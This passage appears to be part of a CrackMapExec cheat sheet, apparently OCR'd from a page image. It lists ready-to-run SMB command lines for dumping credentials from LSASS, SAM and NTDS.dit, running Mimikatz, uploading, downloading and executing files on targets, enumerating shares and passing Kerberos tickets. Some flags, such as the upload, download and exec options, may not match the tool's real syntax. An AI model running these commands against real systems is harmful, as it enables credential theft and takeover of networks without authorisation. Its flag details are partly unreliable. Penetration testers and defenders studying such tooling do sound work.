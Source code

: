 ### Credential Dumping

- **Dump LSASS:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --lsa
  ```

- **Dump SAM:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --sam
  ```

- **Dump NTDS.dit:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --ntds
  ```

- **Dump Mimikatz:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> -M mimikatz
  ```

### File Operations

- **Upload a File:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --upload <local_file> <remote_path>
  ```

- **Download a File:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --download <remote_file> <local_path>
  ```

- **Execute a File:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --exec <file_path>
  ```

### Enumerating Network Shares

- **List Available Shares:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --shares
  ```

- **Access Specific Share:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --shares <share_name>
  ```

### Miscellaneous

- **Kerberos Ticket Passing:**
  ```bash
  cme smb <target_ip> -k
  ```

- **Verbose Mode:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> -v
  ```
